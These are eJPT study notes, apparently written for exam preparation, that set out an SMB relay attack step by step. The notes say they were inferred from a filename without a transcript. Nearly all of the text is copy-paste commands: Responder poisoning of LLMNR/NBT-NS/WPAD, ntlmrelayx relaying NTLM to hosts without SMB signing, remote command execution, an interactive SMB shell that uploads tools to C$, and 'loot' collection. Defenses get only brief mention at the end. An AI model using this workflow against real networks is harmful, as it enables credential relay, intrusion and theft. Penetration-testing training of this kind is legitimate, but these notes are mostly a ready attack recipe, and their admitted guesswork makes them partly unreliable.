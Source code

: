 # 09 - SMB Relay Attack (eJPT Study Notes)

Note: The transcript was not provided. The following is a conservative, exam-focused summary inferred from the filename and typical eJPT “Network Attacks” content. Commands and flags reflect common practice for modern Kali/Parrot with Responder, Impacket, and CrackMapExec.

## What the video covers (Introduction / big picture)
- How NTLM authentication can be relayed over SMB when:
  - A victim authenticates to an attacker-controlled service (e.g., via LLMNR/NBT-NS/WPAD poisoning).
  - The relay target has SMB signing not required (i.e., message signing disabled or “enabled but not required”).
- Using Responder to coerce/capture inbound authentication and Impacket’s ntlmrelayx to relay to SMB and gain access/execute commands.
- Identifying relayable targets and a practical attack workflow.
- High-level defenses: enable SMB signing, disable LLMNR/NBT-NS/WPAD, harden SMB.

## Flow (ordered)
1. Scope/network check: ensure you are on the same L2 segment where LLMNR/NBT-NS poisoning works.
2. Identify SMB targets where message signing is not required.
3. Prepare Responder for relay (disable its SMB/HTTP servers so ntlmrelayx can handle them).
4. Start Responder to poison LLMNR/NBT-NS/WPAD.
5. Start ntlmrelayx pointing at relayable targets; choose command execution or interactive SMB shell.
6. Wait for victim authentication; on success, execute commands or enumerate shares.
7. Collect loot (hashes/files) and document impact.
8. Clean up and revert Responder config if modified.

## Tools highlighted
- Responder (LLMNR/NBT-NS/WPAD poisoning)
- Impacket ntlmrelayx (relay NTLM to SMB, command execution, interactive SMB shell)
- CrackMapExec (quickly enumerates SMB signing and produces a relay target list)
- Nmap (script-based check of SMB signing)
- Optional: tmux/screen for parallel command windows

## Typical command walkthrough (detailed, copy-paste friendly)

Set some variables for convenience:
```
IFACE=eth0
SUBNET=10.10.10.0/24
TARGETS=targets.txt
LOOT=loot
```

0) Prep: avoid port conflicts and find the right interface
```
# Stop local SMB services that might conflict with Responder
sudo systemctl stop smbd nmbd 2>/dev/null
sudo systemctl disable smbd nmbd 2>/dev/null

# Confirm your interface
ip -br a
```

1) Find relayable targets (SMB signing not required)

Option A – CrackMapExec (recommended quick path):
```
# This generates a list of hosts suitable for SMB relay (signing not required)
crackmapexec smb $SUBNET --gen-relay-list $TARGETS
cat $TARGETS
```

Option B – Nmap verification:
```
nmap -p445 --script smb2-security-mode $SUBNET -oN smb_signing_scan.nmap

# Look in the output for:
# "Message signing enabled but not required"  => relayable
# "Message signing required"                 => NOT relayable
```

2) Configure Responder for relay (disable SMB/HTTP so ntlmrelayx handles those)
```
# Backup config first
sudo cp /etc/responder/Responder.conf /etc/responder/Responder.conf.bak

# Turn off SMB and HTTP in Responder (so it won't "eat" the auth before relay)
sudo sed -i 's/^SMB.*/SMB = Off/' /etc/responder/Responder.conf
sudo sed -i 's/^HTTP.*/HTTP = Off/' /etc/responder/Responder.conf

# (You can also edit manually: sudo nano /etc/responder/Responder.conf)
```

3) Start Responder to poison LLMNR/NBT-NS/WPAD
```
sudo responder -I $IFACE -rdw -v
# -I: interface
# -r: answer NetBIOS/LLMNR
# -d: enable/serve WPAD/DHCP options (depends on version)
# -w: start WPAD rogue proxy
# -v: verbose
```

4) Start ntlmrelayx to relay to SMB
- Command execution on target(s):
```
mkdir -p $LOOT
impacket-ntlmrelayx -tf $TARGETS -smb2support -c "whoami" -l $LOOT
```

- Interactive SMB shell on success:
```
mkdir -p $LOOT
impacket-ntlmrelayx -tf $TARGETS -smb2support -i -l $LOOT
```

- Single target variant:
```
impacket-ntlmrelayx -t smb://10.10.10.20 -smb2support -i -l $LOOT
```

5) Use the interactive SMB shell (if you used -i)
Common commands inside ntlmrelayx SMB shell:
```
# After a successful relay:
SMB> shares
SMB> use C$
SMB> ls
SMB> cd \Windows\Temp
SMB> put yourtool.exe
SMB> execute cmd.exe /c whoami > C:\Windows\Temp\who.txt
SMB> get C:\Windows\Temp\who.txt
SMB> exit
```

6) Notes on outcomes
- If the relayed user is local admin on the target, ntlmrelayx can often execute commands and/or dump goodies automatically into the loot directory.
- If not admin, you may still enumerate shares/files but lack code execution.

7) Cleanup and revert Responder config
```
# Stop Responder (Ctrl+C), then restore config if needed
sudo mv /etc/responder/Responder.conf.bak /etc/responder/Responder.conf 2>/dev/null || true
```

## Practical tips
- You must be on the same broadcast domain as the victim for LLMNR/NBT-NS poisoning to work.
- Relay only works if the relay target does not require SMB signing. Domain Controllers typically require signing by default; look for workstations/servers where it’s not required.
- Keep Responder’s SMB/HTTP OFF during relay; otherwise Responder will capture (and terminate) the handshake rather than forwarding it to ntlmrelayx.
- Run Responder and ntlmrelayx as root to bind low ports (80/445).
- Make sure no local services are occupying ports needed by Responder (smbd/nmbd/apache).
- Use tmux/split panes: one for Responder, one for ntlmrelayx, one for logs.
- If you get lots of noise but no hits, wait for users to browse network shares or trigger naming lookups, or consider safe coercion techniques only if allowed in scope.
- Common signs of success: ntlmrelayx prints “SMB connection successful” and shows command output or opens an SMB> prompt.

## Minimal cheat sheet (one-screen flow)
```
IFACE=eth0
SUBNET=10.10.10.0/24
TARGETS=targets.txt
LOOT=loot

# 1) Find relayable hosts
crackmapexec smb $SUBNET --gen-relay-list $TARGETS
cat $TARGETS

# 2) Prep Responder for relay
sudo cp /etc/responder/Responder.conf /etc/responder/Responder.conf.bak
sudo sed -i 's/^SMB.*/SMB = Off/' /etc/responder/Responder.conf
sudo sed -i 's/^HTTP.*/HTTP = Off/' /etc/responder/Responder.conf

# 3) Start Responder
sudo responder -I $IFACE -rdw -v

# 4) Start ntlmrelayx (command exec) or interactive
mkdir -p $LOOT
impacket-ntlmrelayx -tf $TARGETS -smb2support -c "whoami" -l $LOOT
# or
impacket-ntlmrelayx -tf $TARGETS -smb2support -i -l $LOOT
```

## Summary
- SMB relay abuses NTLM authentication by capturing a victim’s network authentication and relaying it to an SMB service where signing is not required.
- Typical stack: Responder (to coerce/capture auth) + ntlmrelayx (to relay to SMB targets).
- Key prerequisite: target must not require SMB signing; enumerate first with CrackMapExec or Nmap.
- Workflow: identify targets → configure Responder for relay → run Responder → run ntlmrelayx → wait for victim → execute commands/enumerate shares → collect loot.
- Mitigations: enable SMB signing everywhere, disable LLMNR/NBT-NS/WPAD, restrict local admin rights, and segment networks.